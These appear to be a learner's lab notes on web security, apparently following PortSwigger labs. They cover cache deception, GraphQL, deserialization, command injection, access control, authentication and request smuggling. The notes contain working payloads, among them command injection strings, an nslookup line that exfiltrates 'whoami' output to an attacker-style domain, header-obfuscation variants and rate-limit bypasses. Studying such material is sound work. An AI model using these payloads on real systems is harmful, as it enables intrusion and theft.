Web Cache Deception
- Vulnerability that enables an attacker to store in the cache a dynamic response by confusing it for a static resource.
- It is caused by discrepancies between how the cache server and the origin server handles requests
Impact
- An attacker tricks a user into visiting a malicious link, that makes a call for dynamic resources confused as static content. The attacker can then visit the same URL to retrieve the results of the dynamic resource intended only for the victim user (ex: their profile page + including username + password)
Cache rules
- determines what to cache and for how long
- usually stores static content (ex: .js, .css, .ico, robots.txt, /assets or /static folder contents)
How to construct an attack?
- Find a url that ignores the contents after "/" (with wildcard mapping)
- ex: /profile = /profile/abcd
- Add the file extension of a static resource => that will cause the request to be stored in the cache (ex: /profile/a.js)
- Send the link to the victim and wait for it to be clicked
- Visit the same page (/profile/a.js) to see the profile details of the victim user
Types of web cache deception
Exploiting path mapping discrepancies- ex:
/api/orders/123- logical mapping /api/orders/123/abcd- ignores abcd, anything after /
- ex:
Delimiter discrepancies- ex:
/profile;foo.css - Java Spring uses
;as delimiter to add matrix variables -> such a server running Java Spring would drop everything after ; - ex2: Ruby on Rails uses
.(dot)for delimiter:/profile.css or /profile.ico - ex3:
profile%00foo.js - DELIMITER LIST WORDLIST
- https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list
- ex:
Delimiter decoding discrepancies- some parsers will url decode and then separe, others won't url decode. The cache won't decode them, if the backend decodes them and drops the a.js => returns dynamic data
- try encoding separator characters(ex: #, ? + non-printable characters %00, %0A, %09)
Exploiting static directory cache rules!- /static, /assets, /scripts, /images
Exploiting Normalization Discrepancies- Use
encoded path traversal for this:- ex:
/static/..%2fprofile - not all servers url decode chars and not all servers resolve dot segments
- ex:
- Use
GraphQL API
enables users to specify exactly what fields they want in the response- Clients don't need to know API endpoints, one endpoint, ask for data -> GraphQL API takes care of retrieving the data for you.
HOW IT WORKS ?
- 3 operations
- Fetching data
- Modifying data
- Subscriptions (permanent connection where server continuously pushes data to client)
- It uses
objects (types), fields and relationships - Only uses POST requests tot ONE ENDPOINT => response in JSON
GraphQl translation of REST APIs
-
GET requestsqueryoperation type (optional) +name(optional) +data structure+arguments(optional)
query myGETExampleName { getProduct(id: 123){ name description } } -
POST/PUT/DELETE requests- GraphQL Mutations
- same as
QUERIES, but they take some input (inline/variable)
mutation exampleMutationName{ createProduct(name: "TEST", listed:"yes"){ id name listed } } -
GraphQL variables- Taken from a
JSON-based VARIABLES dictionary - Steps to use variables
- Declare in the query header (after the name) -
$id: ID!,!- required - Use the declared value in the query as argument -
id:$id - Declare the variable value in the
Variablesdictionary
- Declare in the query header (after the name) -
query myGETExampleName ($id: ID!) { getProduct(id: $id){ name description } } Variables: { "id": 1 } - Taken from a
-
Aliases- GraphQL objects can't contain the same property/object twice
- Use ALIASES to return the same object with different arguments
- This can allow you to basiucally send
multiple GraphQL messages in one HTTP request
#Valid query using aliases query getProductDetails { product1: getProduct(id: "1") { id name } product2: getProduct(id: "2") { id name } } -
Fragments- reusable parts of queries or mutations
- reusable object / field grouping
- can be included then in queries with
...preceding it
# Example fragment fragment fragmentName on Product{ id name listed } #Query calling the fragment query { getProduct(id: 1) { ...productInfo stock } } -
SUBSCRIPTIONS- implemented using Websockets
- long-lived connection, small regular updates to big objects
-
INTROSPECTION- BUILT IN FUNCTION THAT ENABLES TO QUERY SERVER FOR
SCHEMA INFORMATION
- BUILT IN FUNCTION THAT ENABLES TO QUERY SERVER FOR
GraphQL vulnerabilities
Finding GraphQL endpoints
-
Use
universal queries:query {__typename}-> should return{"data":{"__typename": "query"}}- Every GraphQL endpoint has a reserved field __typename that returns the queried object's type
-
Use
blank body-> should get aquery not presenterror message!!! -
Common endpoint names
/graphql
/api
/api/graphql
/graphql/api
/graphql/graphql
/graphql/v1
/api/v1
/api/graphql/v1
/graphql/api/v1
/graphql/graphql/v1
- Test
REQUEST HTTP METHODS- Production GraphQL endpoints SHOULD ONLY ALLOW
POST + application/json - Test for
GETorPOST + application/x-www-form-urlencoded - Try UNIVERSAL QUERY + other HTTP methods
- Production GraphQL endpoints SHOULD ONLY ALLOW
Exploiting unsanitized arguments
- Reference hidden objects by ID (ex: query for all -> returns object with id: 1,2,4 => query for (id: 3) reveals hidden object)
Discovering schema information
-
INTROSPECTION + __schema on root -
In REPEATER of a GraphQL API endpoint, right-click anywhere and select
GraphQL > Set introspection query=> adds it to the body of the request -
Use a
GRAPHQL visualizerto interpret results (http://nathanrandal.com/graphql-visualizer/) -
If introspection is disabled, you can use
suggestionsto uncover the API functions (Clairvoyance- tool for suggestion GraphQL API mapping) -
MANUAL tests
#Introspection probe request
{
"query": "{__schema{queryType{name}}}"
}
#Full introspection query
query IntrospectionQuery {
__schema {
queryType {
name
}
mutationType {
name
}
subscriptionType {
name
}
types {
...FullType
}
directives {
name
description
args {
...InputValue
}
onOperation #Often needs to be deleted to run query
onFragment #Often needs to be deleted to run query
onField #Often needs to be deleted to run query
}
}
}
fragment FullType on __Type {
kind
name
description
fields(includeDeprecated: true) {
name
description
args {
...InputValue
}
type {
...TypeRef
}
isDeprecated
deprecationReason
}
inputFields {
...InputValue
}
interfaces {
...TypeRef
}
enumValues(includeDeprecated: true) {
name
description
isDeprecated
deprecationReason
}
possibleTypes {
...TypeRef
}
}
fragment InputValue on __InputValue {
name
description
type {
...TypeRef
}
defaultValue
}
fragment TypeRef on __Type {
kind
name
ofType {
kind
name
ofType {
kind
name
ofType {
kind
name
}
}
}
}
Introspection query disabled bypass
- regex matching for
__schemacan be bypassed by appening special characters\n,,are ignored by GraphQL but not regex
- Introspection might be disabled on POST; try
GETorPOST + x-www-form-urlencoded
Bypassing rate limiting using aliases
- if rate limiting is done based on the nr of HTTP requests, then using aliases can enable you to send as many GraphQL messages in one request as you want

CSRF via GraphQL
- if
NO csrf-token+content-type not validated=> CSRF Can use GET requests or POST with x-www-form-urlencoded for CSRF attacks!!!
GraphQL labs
- Accidental exposure of private GraphQL fields
- found GraphQL endpoint in Burp History
- Sent introspection query, interpreted query results

- Sent query for
getUser(id)for id 1 -> got administrator username and password in plaintext
- Sent login mutation with the username and password and got the auth token in the cookie

- Finding a hidden GraphQL endpoint
- do fuzzing on API endpoints
- found
/api POSTmethod not allowed, (WEIRD) - tried
GET /api=>query not specified!=> GRAPHQL endpoint found - tried universal query to confirm:
?query={__typename}=> got typename query - tried
introspection insertion with BURP=> got blocked - added special chars (
,,\n) and the newline worked !!! Right click on introspection request => GraphQL => ADD TO SITEMAP!!!- this adds all the available queries and mutations for you (
interpreted&ready 2 go!!!) - Go to Target, site-map, /api
- found 1 mutation, needed an id. Used the 1 query found to get id=3 for carlos
- Deleted user with id=3 with mutation

- found
- Performing CSRF exploits over GraphQL
- For CSRF to work you have to have either
GET allowedx-www-form-urlencoded POST allowed
- The 1st one blocked, 2nd one allowed here
- Burp CAN'T CHANGE THE REQUEST RIGHT AWAY
- Either do a simple universal query first and then edit the query in the GraphQL tab (query={__typename})
- Or just URL encode all characters of the requested query

Preventing GraphQL attacks
- DISABLE
INTROSPECTION - DISABLE
suggestions - do not expose unintended fields publicly
- limit the
query depth(nr of queries in query) of your API's queries (prevents bruteforce and DOS) - Configure
operation limitsbased on the nr of operations not HTTP requests- this limits the nr of
unique fields,aliasesyou can use
- this limits the nr of
- Implement
cost analysis on your API- if it is too expensive, drop the request. This is realtime process
- Only accept POST + JSON
- Validate the content provided matches the
Content-Type - Use a secure
CSRF token mechanism
Insecure Deserialization
- Objects -> serialization -> stream of bytes -> DB store -> deserialization -> Objects
- Even
private fieldsget serialized, if you don't mark it astransient - Dangerous! Because there is no way to check the type of the serialized object, any object can be passed into the deserialization function -> OBJECT INJECTION
- In many cases, the attack happens even before the deserialization is finished.
How to identify it?
- Find
serialized databeing passed into the application in any request
# PHP
O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}
serialize()
unserialize()
// Java - binary serialization
// look for [ac ed](hex) or [rO0](base64) at the beginning of the data
java.io.Serializable -> any object that implements this interface can be serialized
readObject() -> source code indicator of deserialization
How to exploit it?
- Modify the serialized object's properties (ex: admin:0 -> admin:1)
- Make use of
PHP loose comparison for ==(ex: password == $password -> checking ifsecret== 0), which is true!!! - Make use of
Hackvertorto edit string object -> get the serialized output! MAGIC METHODS
What are MAGIC METHODS?
- Functions that are called implicitly (ex init() PYTHON or __construct() PHP)
__wakeup()for PHP used in deserialize()ObjectInputStream.readObject()for Java
private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException
{
// implementation
}
- deserialize() cannot check the object type of the serialized data -> Arbitrary objects can be serialized and passed onto the function
Study if these objects use magic functions, in dangerous ways
What are gadget chains?
- A series of object invocations or function calls that provide a chain leading to user controllable input ending up in a sink
- Tools to identify gadget chains:
ysoserial (JAVA): for java deserialization. You select the library that youthinkthe target application is using, then pass in the command you want to execute, and it gives a serialized object.First select java 11 just like in image below
java -jar ysoserial-all.jar [payload] '[command]'- In the cookie I identified this: 
- This indicated towards the common collections gadgets 
ysoserialuses:- RCE
- DNS lookup through the
URLDNS, themost univeral gadget chain for detection purposes!(supply a Collaborator address) - try to establish a TCP connection with an IP
JRMPClientchain! If the firewall doesn't allow any outbound traffic. Supply alocal IPand anexternal IP(that should be blocked). If the external IP causes a delay -> the deserialization happens on the target and it is vulnerable
phpggc- PHP equivalent- exercise solve: you see in the cookie you have a 'sig_hmac_sha1' field, so that means that you'll have to verify your payloads with signatures.
- To generate these, you need the SECRET_KEY of the server: found at
/cgi-bin/phpinfo.phpin a commented out html  - You get an error message saying Symfony v4, so try those gadget chains, one WILL WORK.
-
RUBY deserializatio with known gadget chain!
- USE a
ONLINE RUBY interpreterif yours fails!!! Don't always try to do it on your laptop!!! - I only managed to make it work using a online interperter
- USE a
PHP trick
- You cannot read the contents of a php file, but maybe you can read the contents of an editor generated backup file:
filea~using the~sign 
Exercises
- Loose comparison for string [user token] in serialized data
Modifying serialized data types(from string to integer for loose comparison) 
Using application functionality- ex: find a random path in the serialized object -> on delete function it will delete that file also
OS command injection
- Operators to link operations:
||,&&,;-> try them all- less common:
|,&,0x0a or \n \`` or$()` for command injection within command
- blind OS command injection -> use
sleep 5orping -c 10 127.0.0.1to confirm it - to
exlpoit itwrite the output of the command to a WRITABLE FILE:- ex: If images are retrieved from the path /image?filename=a -> try popular paths like: /var/www/images where it could be stored. Inject
||whoami+>+/var/www/images/a||-> and then retrieve it from the image path: /image?filename=a
- ex: If images are retrieved from the path /image?filename=a -> try popular paths like: /var/www/images where it could be stored. Inject
- to
exploit ituse out-of-band interactions- ex:
nslookup attacker.comto test it and& nslookupwhoami.kgji2ohoyw.web-attacker.com &to retrieve the value from the command output
- ex:
Access control vulnerabilities
Lab 1 (Url based access-control can be circumvented)
- Some frameworks like:
symfony(php),zend-diactoros,zend-http,zend-feed-> support legacy headers X-Original-URL and X-Rewrite-URL - These allow to rewrite the request:
GET /admin/delete=>GET /?user=carlos, headers: {X-Original-URL: /admin/delete?user=carlos}! - If access is restricted based on URL => you can trick the url value of the request and change it from the header this way!
Lab 2 (Method-based access control can be circumvented)
- POST is restricted, but GET is NOT
- try to change the request method and move the post parameters as ?x=1&y=2.
- sometimes access can be restricted to SOME HTTP METHODS
Lab 3
- Multi-step authorization, where last step is NOT PROPERLY CHECKED.
- ex: POST /admin-roles with body
action=upgrade&username=wiener-> which if you add your session cookie -> UNAUTHORISED!!! - but if you see, the next step of the authorization is: POST /admin-roles with body:
action=upgrade&confirmed=true&username=wiener-> which if you add your session cookie -> WORKS!!!
Lab 4
-
The
Reffererheader indicates which website initiated the action -
Validation can be done rigurously on the
/adminpath, but on the other paths like:/admin/delete?username=carlosthe validation is done based on the fact : if the Refferer header is /admin- The assumption is: only someone who has access to the admin page can initiate these action
- Since /admin is well secured -> anyone who accesses these actions COME FROM /admin =>
FALSE ASSUMPTION - attackers can change Refferer header
-
Other vulns:
Location based authorization-> you can use a VPN or other mechanisms to circumvent this
Authentication vulnerabilities
- Username enumeration using login forms:
- get different error when the username is valid but password is wrong than when both are wrong
- get error
username is takenon the registration form - indicators: response status, error messages or response times
Lab 1 - Username enumeration via subtly different responses
- bruteforce usernames and passwords using wordlist
- for the usernames, the difference was the correct answer was missing a .
- ex: WRONG response:
Invalid username or password.vs VALID username:Invalid username or password
- ex: WRONG response:
Lab 2 - Username enumeration via response timing
- this lab has a rate limit defense based on the IP address of the sender
- to bypass IP rate limiting, use:
X-Forwarded-For: 161.19.1.1and that will indicate that the traffic originates from that IP adddress - to solve this, we used a Pitchfork attack from Intruder, adding a $$ to the X-Forwarded-For:
123.1.1.$1$and one for the username - OBS: When dealing with response timing, to make sure that the differences in time are visible, purposefully craft the exploit to make huge delays when working.
- ex: If the username is correct, it's gonna go ahead and check the password, which takes time, so to make it more obvious -> CHECK A LONGER PASSWORD takes MORE TIME -> username=$$ and password=100characters long
Brute-force protection mechanisms
- IP rate limiting or blocking
- bypass: X-Forwarded-For header
- locking account after too many failed attempts
- bypass: counter may reset on correct login; so brute-force until BEFORE limit, login to your account, that resets counter -> continue process
Lab 3 - Broken brute-force protection, IP block
- this lab resets the counter of wrong attempts on correct login, so it requires a sequence of tries like: try1,try2,reset or try,reset,try,reset
- we can use the
bruteforceBypass.pyscript - or we can use a
MACROin BurpSuite- go into Proxy Settings - Session - Macro - Add - choose the request that resets the counter(the correct login)
- then go into the Proxy Settings - Session handling rules - add a macro - add the macro, and make sure to check
Include all URLSin the scope window
- or use
Turbo Intruder(much faster too)

Lab 4 - Username enumeration via account lock
- this lab locks you out if the username is valid, but otherwise lets you try passwords forever
- For each username, launch an attack with 4-5 passwords, and when you get locked out -> valid username!!!
- So then you do a intruder normal sniper attack with the passwords and you get the password even with lockouts.
Lab 5 - Offline password cracking
- the password was kept in a cookie in base64 encoding + md5 hash
- so we only needed to steal the cookie
wiener@exploit-0a1d009c03fd40c087b5dc67019700a7.exploit-server.net
Business logic labs
Lab 1: Low-level logic flaw
- aim for an
integer overflow(integer max: 2,147,483,647) - use the Intruder to add 99 items at once multiple times(since 99 is the limit in one api call) -> observe that you get after a while the total to be negative
- try to buy -> ERROR: total cannot be negative
- SOLUTION: add again items until the integer overflows again to the positives and add smaller items to make the total under your store credit!
Lab 2: Inconsistent handling of exceptional input
- aim for
buffer overflow - observe that for a long enought email you can get it truncated, while also keeping the whole address for the email confirmation!!!
- then play with the concept of:
You can use the link in the lab banner to access an email client connected to your own private mail server. The client will display all messages sent to @YOUR-EMAIL-ID.web-security-academy.net and any arbitrary subdomains. Your unique email ID is displayed in the email client.-> subdomains means: a@YOUR-EMAIL-ID.web-security-academy.net but also a@something.YOUR-EMAIL-ID.web-security-academy.net
- Combine them: add exactly as many characters before
@dontwannacry.comso that it overflows the limit and the email in the app remains with the ending @dontwannacry,com == ADMIN ACCOUNT - final payload email:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@dontwannacry.com.exploit-0adf0019041165ce8369c75801ed004f.exploit-server.net
Authentication bypass via encryption oracle
- Whenever you see remember-me login , it probably keeps login data in a cookie
- In this case it uses some special encoding with a 16bit padded cipher with a private key
Try to find also a decrypt functionality- In this problem it provides encoded error messages that are then decoded on the main page when provided in the notification cookie
- When you recognize patterns, like base64, it sure as hell is base64. Like here you had to delete 16bit chuncks but not from the base64, but from the base64 hex decoding, And you then had to re-encode the payload with base64
- You can observer the decoding by passing the stay-logged-in cookie to the notification cookie and seeing an error message like:
wiener:12797018361 - Then we use the error generation in the email field of the comment post request to generate the payload:
administrator:126726310. - But the error message is:
Invalid email address:so we have to pad it to our payload with enough chars to be 16-bit padded (which we identified from passing different payloads)
- You can observer the decoding by passing the stay-logged-in cookie to the notification cookie and seeing an error message like:
Request Smuggling
- primarily associated with HTTP/1 and only certain backend technologies of HTTP/2
- it regards the sequence in which a server processes HTTP requests
Main idea
- Bigger web apps use a
front-end server (reverse proxy/load balancer)that receive the incoming request and then distributes the request further to thebackend servers - To be more efficient, they send
multiple HTTP requestsover the same network connection! The backend then interprets where one request ends and the next one begins - In this situation, it is crucial that the front-end and back-end systems agree about the boundaries between requests, otherwise this can be exploited
How do they specify the boundary? Content-Length and Transfer-Encoding
ex: Content-Length: 11- ex:
Transfer-Encoding: chunked
\r\n |always leave space between request and contents
b |size in hex
q=smuggling |contents
0\r\n |ending zero chunk
\r\n |ending zero chunk
-
NOTE:
- not all servers support the
Transfer-Encodingheader - if both
Transfer-EncodingandContent-Lengthare present theContent-Lengthisignored!!!
- not all servers support the
-
TYPES OF ATTACKS
Put both the Content-Length and Transfer-Encoding headers into the request to trigger parsing inconsistenciesCL.TE(frontend uses CL, backend uses TE)TE.CLTE.TE(both use TE but one of the servers can be induced not to process it throughobfuscation)
-
How to detect
CL.TE - things to look out for:
- HTTP/1
- Turn off automatic Content Length
- First test, then send confirmation payload
- things to look out for:
-
Obfuscating TE for
TE.TE attacks
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
-
The
TE.TEis actually just aTE.CL, so follow the same methodology, try TE.CL payload test (with timeout) andobfuscate the TE headeruntil you get the timeout !!! -
TO confirm these vulns you can either smuggle a single char and hope for a
Unrecognized method GPOSTor you could trigger a POST to a/404page to trigger a404 not foundto confirm that the payload worked!
Exploiting HTTP request smuggling
-
Bypass Frontend Server
Access ControlsandFilters- ex: POST /home with a smuggled GET request for /admin
- Exercise: Delete carlos through admin panel with smuggled request
CL.TE payload- 
TE.CL payload- 
-
Revealing front-end rewriting
- the front-end server might:
- terminate the TLS connection and add some headers describing the protocol and ciphers that were used;
- add an X-Forwarded-For header containing the user's IP address;
- determine the user's ID based on their session token and add a header identifying the user; or
- add some sensitive information that is of interest for other attacks.
- Add the smuggled request into a paramter whose value is reflected in the response to reveal ANY HIDDEN HTTP HEADER values
- 
- Exercise:
- 
- 
- the front-end server might:
SQL injection
- SQLi vulnerabilities can allow an attacker to modify or delete data, compromise the underlying server or even perform
denial of serviceattacks.
